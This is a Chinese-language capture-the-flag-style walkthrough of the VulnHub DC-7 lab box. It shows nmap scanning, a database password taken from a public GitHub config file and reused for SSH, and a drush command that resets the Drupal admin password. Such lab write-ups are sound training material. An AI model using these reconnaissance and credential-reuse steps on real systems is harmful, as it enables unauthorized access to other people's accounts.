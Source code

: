 # DC 7

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-7,356/

## 知识点

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.162
```

![image](./img/vulnhub-dc7-1.png)
## 漏洞利用

![image](./img/vulnhub-dc7-2.png)

下面提示@DC7USER，谷歌搜索发现Github

- https://github.com/Dc7User/staffdb

![image](./img/vulnhub-dc7-3.png)

在config.php文件发现数据库mysql账号密码

![image](./img/vulnhub-dc7-4.png)

但目标网站没有开放mysql端口，尝试用来SSH登录
`dc7user MdR3xOgB7#dW`
```bash
ssh dc7user@10.30.0.162
ls # 收到邮件提示查看
cat /var/mail/dc7user
```

是一个定时备份脚本，得到备份目录,进行查看

![image](./img/vulnhub-dc7-5.png)

```bash
cat /opt/scripts/backups.sh
```

![image](./img/vulnhub-dc7-6.png)

可以看到drush命令，可以用它来修改密码，drush为该网站的网站管理指令，可以通过该命令给网站后台添加一个用户名和密码
该命令必须在指定网站目录下使用，kali不具备该命令

```bash
cd /var/www/html
drush user-password admin --password="admin" # 成功修改，去登录
```

## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC7-WalkThrough.md
- http://www.kxsy.work/2021/08/06/shen-tou-dc-7/
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/yrk4mg